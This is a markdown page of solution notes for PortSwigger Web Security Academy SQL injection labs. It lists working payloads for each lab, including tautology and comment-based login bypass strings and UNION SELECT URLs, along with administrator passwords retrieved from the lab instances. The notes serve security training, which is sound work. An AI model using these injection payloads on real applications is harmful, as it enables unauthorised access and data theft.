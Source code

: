 # SQL Injection

## Apprentice

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

![](https://i.imgur.com/uuj7iWs.png)

`OR 1=1 --`

### SQL injection vulnerability allowing login bypass
https://portswigger.net/web-security/sql-injection/lab-login-bypass
 - username:`administrator' -- -`

## Practitioner

### SQL injection UNION attack, determining the number of columns returned by the query
https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns
 - `https://aced1fe51f9ab728c01a648000ee0000.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,null,null%20--`


### SQL injection UNION attack, finding a column containing text
https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text
`https://ac7a1f9f1e6af714c06e6ff300ff00ef.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,%27f8bj7z%27,null%20--`

### SQL injection UNION attack, retrieving data from other tables

![](https://i.imgur.com/EviixlF.jpg)

administrator
xa1z5d50eo7nw1tu11sv

### SQL injection UNION attack, retrieving multiple values in a single column
 ![](https://i.imgur.com/c8Al8wU.png)
administrator:0s3at2nwx0z3qdap2kya

### SQL injection attack, querying the database type and version on Oracle
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle
